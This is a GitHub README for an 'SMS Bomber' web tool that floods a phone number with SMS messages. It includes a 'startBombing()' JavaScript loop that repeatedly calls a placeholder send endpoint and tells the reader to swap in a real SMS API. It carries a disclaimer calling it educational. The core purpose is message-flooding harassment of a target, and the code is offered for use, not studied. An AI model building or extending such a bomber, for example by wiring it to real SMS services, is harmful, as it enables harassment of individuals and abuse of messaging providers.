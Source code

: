 # 📲 SMS Bomber

A simple SMS Bomber built with **HTML**, **CSS**, and **Vanilla JavaScript** for educational and testing purposes only.  
Send multiple SMS requests to a phone number using public/test APIs (or your own endpoint).

---

## 🚨 Disclaimer

> This tool is built **strictly for educational use**, testing rate-limiting protections, and personal project demos.  
> **Do not use it to harass, spam, or target individuals or services without permission.**  
> The author takes **no responsibility** for misuse.

---

## ⚙️ Features

- 📱 Easy-to-use UI to input phone number and message count
- 🔁 Loop-based bombing logic using `fetch()` or `XMLHttpRequest`
- 💬 Supports sending test messages via public APIs or your own backend
- 🎨 Clean responsive design with CSS
- ⏱️ Delay between requests to prevent browser freezing

---

## 📂 Tech Stack

- ✅ HTML5
- ✅ CSS3 (no frameworks)
- ✅ Vanilla JavaScript (no libraries)
- 🚫 No backend included — you can add your own API endpoints

---

## 🔧 Usage

### 1. Clone the repo

```bash
git clone https://github.com/yourusername/sms-bomber.git
cd sms-bomber
````

### 2. Open the HTML file

```bash
# Just open in your browser
open index.html
```

---

## ✨ Demo

```html
<input type="text" placeholder="Enter Phone Number" />
<input type="number" placeholder="No. of Messages" />
<button onclick="startBombing()">Start</button>
```

> 💡 Customize `startBombing()` function in `script.js` to call your SMS API or mock endpoint.

---

## 🚀 How It Works

```js
function startBombing() {
  const number = document.getElementById("phone").value
  const count = parseInt(document.getElementById("count").value)

  for (let i = 0; i < count; i++) {
    setTimeout(() => {
      fetch(`https://example.com/api/send?phone=${number}`)
        .then(res => console.log(`Sent #${i + 1}`))
        .catch(err => console.error(err))
    }, i * 1000) // delay between messages
  }
}
```

> ⚠️ Replace `https://example.com/api/send` with your testable endpoint.

---

## 📁 Project Structure

```
sms-bomber/
├── index.html
├── style.css
└── script.js
```

---

## 📜 License

This project is licensed under the **MIT License**.
Use responsibly and legally.

---

## 🙋‍♂️ Author

Made with 💻 by [Sarker Ayon](https://github.com/amiayon8)
Connect via [Instagram](https://instagram.com/amiayon8)

---

> “Education is power — use it ethically.”
